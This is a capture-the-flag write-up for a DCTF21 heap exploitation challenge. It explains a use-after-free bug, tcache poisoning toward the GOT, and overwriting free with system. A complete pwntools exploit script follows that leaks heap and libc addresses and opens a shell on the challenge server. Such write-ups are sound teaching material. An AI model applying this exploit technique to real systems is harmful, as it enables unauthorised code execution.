 # cache

```
author: T3jv1l
score: 50
solved: 78/79
difficulty: hard
tags: pwn
```

Can you catch me?

Attach:\
[vuln](https://api.cyberedu.ro/v1/contest/dctf21/challenge/99c2bc30-89b5-11ec-b32b-6d1377d288a1/download/1993)\
[libc.so.6](https://api.cyberedu.ro/v1/contest/dctf21/challenge/99c2bc30-89b5-11ec-b32b-6d1377d288a1/download/1994)

## Overview
This challenge have a popular structure of a heap challenge with some options which interact to heap:
```
MENU
1: Make new admin
2: Make new user
3: Print admin info
4: Edit Student Name
5: Print Student Name
6: Delete admin
7: Delete user

Choice:
```
1. Make new admin:\
Create a heap chunk have 0x20 bytes as size.
```c
ADMIN_DATA = (code **)malloc(0x10);
ADMIN_DATA[1] = admin_info;
*ADMIN_DATA = getFlag;
```
2. Make new user:\
Create a heap chunk have 0x20 bytes to store name from input (`USER_DATA`)
3. Print admin info:\
Call `admin_info()` function via `ADMIN_DATA[1]`
4. Edit Student name:\
Edit the string in `USER_DATA` pointer
5. Print Student name:\
Using `printf()` with `USER_DATA`
6. Delete admin
Free `ADMIN_DATA` pointer
7. Delete user
Free `USER_DATA` pointer

## Bugs
The bug here is UAF at `USER_DATA` because after freeing, `USER_DATA` still are old value and not be set to 0.

## Exploit
We have checksec's result:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./'
```
Because we have `getFlag()` function pointer in `ADMIN_DATA`. First my idea is calling that function.\
Firstly, I malloced a chunk with `USER_DATA` then freed it. After that, I malloced a chunk with `ADMIN_DATA`.
Because 2 structs have same size, `USER_DATA` pointed to `ADMIN_DATA`. I override `admin_info` address with `getFlag` address and triggered it with **Print admin info** feature. But I got this fake result from server :)\
Move to RCE expection. I leaked libc address via GOT table by UAF bug:
- Malloc 2 structs and free it (the `ADMIN_DATA` first)
- Edit next chunk in *tcache* point to GOT
- Leak GOT with **Print user info** feature
- Override GOT with *system* (I chose *free* function because I can control input for it fully)
- Trigger and exec `system("/bin/sh")`

## Code
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
gdb_script='''
init-gef\n
b main\n
b *0x00400a9e\n
b *0x00400a85\n
b *0x0040095e\n
b *0x00400a2f\n
'''

get_flag = exe.symbols["getFlag"]
setbuf = exe.got["setbuf"]
printf = exe.got["printf"]
free = exe.got["free"]
log.info("Free got: " + str(hex(free)))

def conn():
    print(str(args.LOCAL) + " " + str(args.DEBUG))
    if args.LOCAL:
        r = process([exe.path])
    elif args.DB:
        r = process([exe.path])
        gdb.attach(r,gdbscript = gdb_script)
    elif args.REMOTE:
        r = remote("35.246.134.224",30532)

    return r

def new_admin(r):
    r.sendafter(b"Choice: ",b"1\n")
def new_user(r,name):
    r.sendafter(b"Choice: ",b"2\n")
    r.sendafter(b"What is your name: ",name)
def info_admin(r):
    r.sendafter(b"Choice: ",b"3\n")
    return r.recvuntil(b"MENU")
def edit_user(r,name):
    r.sendafter(b"Choice: ",b"4\n")
    r.sendafter(b"What is your name: ",name)
def info_user(r):
    r.sendafter(b"Choice: ",b"5\n")
    r.recvuntil(b"Students name is ")
    return r.recvuntil(b"\n")

def del_admin(r):
    r.sendafter(b"Choice: ",b"6\n")
def del_user(r):
    r.sendafter(b"Choice: ",b"7\n")

def main():
    r = conn()

    # Leak address heap chunk
    new_admin(r)
    new_user(r,b"123")
    del_admin(r)
    del_user(r)
    res = info_user(r)[:-1]
    res = res.ljust(8,b"\x00")
    res = u64(res)

    admin_chunk = res
    user_chunk = admin_chunk + 0x20

    log.info("Chunk: " + str(hex(admin_chunk)))

    log.info("LEAK DONE")

    # malloc user_chunk -> GOT:
    log.info("Edit Tcache chunk to GOT")
    edit_user(r,p64(free-0x8))
    log.info("Malloc user_chunk to GOT")
    new_admin(r)
    new_user(r,b"A"*8)

    # Leak libc:
    log.info("Get setbuf libc addr")
    res = info_user(r)[8:-1]
    res = res.ljust(8,b"\x00")
    res = u64(res)
    base_libc = res - libc.symbols["free"]
    libc.address = base_libc
    system = libc.symbols["system"]
    log.info("System libc: " + str(hex(system)))

    # Edit for creating system("/bin/sh")
    log.info("Edit user_chunk with: | \"/bin/sh\" | system |")
    edit_user(r, b"/bin/sh\x00"+p64(system))

    # Trigger shell
    del_user(r)


    r.interactive()


if __name__ == "__main__":
    main()
```
